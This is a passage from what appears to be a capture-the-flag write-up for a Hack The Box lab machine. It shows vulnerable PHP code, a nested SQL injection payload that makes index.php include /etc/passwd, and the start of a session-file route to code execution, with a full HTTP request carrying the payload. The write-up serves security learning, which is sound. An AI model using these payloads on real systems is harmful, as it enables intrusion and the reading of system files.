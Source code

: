 ```
	if ($debug) { echo "sqlpath: $sql<br>\n"; }
	$result = $conn->query($sql);
	if ($result->num_rows > 0) {
		while($row = $result->fetch_assoc()) {
			$ret = $row['path'];
		}
	}
	if ($debug) { echo "retpath: $ret<br>\n"; }
	return $ret;
}
```
The `$inc` return value from `getPathFromTpl` is then included within `index.php`. If we can trick the 1st SQL injection into outputting another injection query into the 2nd call, it may be possible to cause an arbitrary file to be included in this line:
```
<?php
include("$inc");
?>
```
After significant time manually fuzzing payloads, the following was found to yield results `' UNION SELECT "main' UNION SELECT '/etc/passwd';-- ";--`

![](pictures/lfi_etcpasswd.png)


### Local File Inclusion to Remote Code Execution

Since this LFI is exploited in the context of an `include()` call, we need a way to get our own php code into a system file. Our session file at `var/lib/php/session/sess_[SESSION COOKIE]` can be used to perform this. The session cookie value can be found in any HTTP request:
```
GET /index.php?id=25%27+UNION+SELECT+%22main%27+UNION+SELECT+%27/etc/passwd%27%3b--+%22%3b--+ HTTP/1.1
Host: www.nestedflanders.htb
Cookie: PHPSESSID=0eeec3brj9f8bs109u6ssli5p3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```